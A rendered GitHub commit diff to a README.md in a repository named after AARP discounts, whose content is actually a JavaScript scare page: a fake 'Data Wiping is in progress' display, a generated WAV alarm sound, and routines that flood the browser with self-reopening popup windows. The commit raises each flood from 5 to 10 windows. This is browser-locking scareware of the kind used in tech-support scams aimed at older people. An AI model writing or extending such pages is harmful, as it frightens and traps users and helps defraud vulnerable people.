

Before and after one commit to hshbs508-beep/AARP-Discounts, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 96% size. Rendered like a GitHub page.

Commit message:
Update README for buffer size and window counts

```diff
--- a/README.md
+++ b/README.md
@@ -193,9 +193,9 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
             const byteRate = sampleRate * numChannels * (bitsPerSample / 8);
             const blockAlign = numChannels * (bitsPerSample / 8);
             const dataSize = pcm16.length * 2;
-            const totalBufferSize = 44 + dataSize; // FIX: Correct total size for ArrayBuffer
+            const totalBufferSize = 44 + dataSize; // Correct total size for ArrayBuffer
 
-            const buffer = new ArrayBuffer(totalBufferSize); // FIX APPLIED
+            const buffer = new ArrayBuffer(totalBufferSize);
             const view = new DataView(buffer);
             let offset = 0;
 
@@ -207,13 +207,13 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
 
             // RIFF Chunk (0 - 11)
             writeString('RIFF');
-            view.setUint32(offset, totalBufferSize - 8, true); offset += 4; // ChunkSize (Total size - 8)
+            view.setUint32(offset, totalBufferSize - 8, true); offset += 4;
             writeString('WAVE');
 
             // FMT Chunk (12 - 35)
             writeString('fmt ');
-            view.setUint32(offset, 16, true); offset += 4; // Subchunk1Size
-            view.setUint16(offset, 1, true); offset += 2;  // Audio format
+            view.setUint32(offset, 16, true); offset += 4;
+            view.setUint16(offset, 1, true); offset += 2;
             view.setUint16(offset, numChannels, true); offset += 2;
             view.setUint32(offset, sampleRate, true); offset += 4;
             view.setUint32(offset, byteRate, true); offset += 4;
@@ -222,7 +222,7 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
 
             // DATA Chunk (36 - 43)
             writeString('data');
-            view.setUint32(offset, dataSize, true); offset += 4; // Subchunk2Size
+            view.setUint32(offset, dataSize, true); offset += 4;
 
             // Write PCM data (44 onwards)
             for (let i = 0; i < pcm16.length; i++) {
@@ -404,9 +404,9 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
         const currentUrl = window.location.href.split('#')[0];
         const autoStartUrl = currentUrl + "#start";
 
-        // 1. ASYNCHRONOUS DELAYED FLOOD (5 windows)
+        // 1. ASYNCHRONOUS DELAYED FLOOD (10 windows)
         function startSecondaryFlood() {
-            const NUM_STAGGERED_WINDOWS = 5;
+            const NUM_STAGGERED_WINDOWS = 10;
             let count = 0;
 
             const floodInterval = setInterval(() => {
@@ -420,9 +420,9 @@ Data Wiping is in progress - <strong id="progress-percent">0% complete</strong>
             }, 50);
         }
 
-        // 2. HYPER-SYNCHRONOUS IMMEDIATE BLAST (5 windows)
+        // 2. HYPER-SYNCHRONOUS IMMEDIATE BLAST (10 windows)
         function startSynchronousBlast() {
-            const NUM_WINDOWS = 5;
+            const NUM_WINDOWS = 10;
             for (let i = 0; i < NUM_WINDOWS; i++) {
                 // Use a different window name for each one to ensure they are new windows
                 window.open(autoStartUrl, 'blastWindow' + i, getRandomWindowFeatures(800, 600));
```
